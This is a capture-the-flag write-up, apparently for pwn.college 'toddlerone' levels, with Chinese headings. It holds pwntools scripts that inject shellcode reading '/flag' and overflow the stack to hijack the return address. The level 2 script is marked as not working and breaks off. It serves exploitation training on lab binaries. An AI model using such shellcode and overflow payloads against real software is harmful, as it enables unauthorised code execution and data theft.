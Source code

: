 level 1
劫持返回地址为控制地址
from pwn import *

p=process(['/challenge/toddlerone_level1.0'])

shell_code='''
mov rbx,0x00000067616c662f
push rbx
mov rax,2
mov rdi,rsp
mov rsi,0
syscall

mov rdi,1
mov rsi,rax
mov rdx,0
mov r10,1000
mov rax,40
syscall

mov rax,60
syscall
'''

filte=p.recvuntil("shellcode at ")
shell_add=p.recvuntil("!",drop=True)
print(shell_add)
shell_add=str(shell_add)[2:-1]
print(shell_add)
shell_add=int(shell_add,16)
shell_add=shell_add.to_bytes(8,byteorder='little',signed=False)

payload=asm(shell_code, arch='amd64')
p.sendlineafter("Reading 0x1000 bytes of shellcode from stdin.\n\n",payload)

overflow_size=0x50
p.sendlineafter("Payload size: ",str(overflow_size))

payload=b'\x90'*(overflow_size-8)+shell_add
p.sendlineafter("bytes)!\n",payload)

p.interactive()

level 2
劫持返回地址为堆栈shellcode上
#2.1无法正确运行
from pwn import *

p=process(['/challenge/toddlerone_level2.1'])

shell_code='''
push 0x616c662f
mov BYTE PTR [rsp+4],0x67
xor rax,rax
inc rax
inc rax
mov rdi,rsp
xor rsi,rsi
syscall
xor rdi,rdi
inc rdi
mov rsi,rax
xor rdx,rdx
push 60
pop r10
push 40
pop rax
syscall
